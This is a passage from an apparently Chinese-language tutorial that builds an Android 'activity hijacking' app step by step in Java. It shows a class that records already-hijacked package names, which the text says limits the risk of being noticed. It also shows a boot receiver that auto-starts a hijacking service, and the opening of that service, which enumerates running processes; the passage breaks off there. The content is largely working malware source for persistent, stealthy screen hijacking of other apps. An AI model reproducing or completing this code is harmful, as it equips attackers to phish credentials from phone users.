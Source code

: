 我们可以看到程序一旦启动，就会启动 HijackingService.class

 

然后我们编写一个 HijackingApplication 类，主要负责添加劫持类别，清除劫持类别，判断是否已经劫持

```
public class HijackingApplication{ 
    private static List hijackings = new ArrayList(); 
 
    public static void addProgressHijacked(String paramString){    //添加劫持进程
       hijackings.add(paramString); 
    } 
 
    public static void clearProgressHijacked(){       //清楚劫持进程集合
       hijackings.clear(); 
    } 
 
    public static boolean hasProgressBeHijacked(String paramString){    //判断该进程是否被劫持
       return hijackings.contains(paramString); 
    } 
} 
```

说明：这个类的主要功能是，保存已经劫持过的包名，防止我们多次劫持增加暴露风险。

 

我们为了实现开机启动服务，新建一个广播类：

```
public class HijackingReciver extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        if(intent.getAction().equals("android.intent.action.BOOT_COMPLETED")){
            Log.w("hijacking","开机启动");
            Intent intent2 = new Intent(context,HijackingService.class);
            context.startService(intent2);
            Log.w("hijacking","启动用来劫持的Service");
        }
 
    }
}

```

然后我们编写劫持类 HijackingService.class

```
private boolean hasStart = false;
    private boolean isStart;
    HashMap> map = new HashMap>();
    //新建线程
    Handler handler = new Handler();
    Runnable mTask = new Runnable() {
        @Override
        public void run() {
            Log.w("TAG","ABC");
            int i =1;
            //ActivityManager activityManager = (ActivityManager) getSystemService(Context.ACTIVITY_SERVICE);
            //List appProcessInfos = activityManager.getRunningAppProcesses();
          //  List appProcessInfos = ((ActivityManager) HijackingService.this.getSystemService(Context.ACTIVITY_SERVICE)).getRunningAppProcesses();
           //String Processesnew = ForegroundProcess.getForegroundApp();
           //Log.w("TAG============",Processesnew);
           List Processes = AndroidProcesses.getRunningAppProcesses();
            Log.w("hijacking", "=================正在枚举进程=======================");
            //枚举进程
```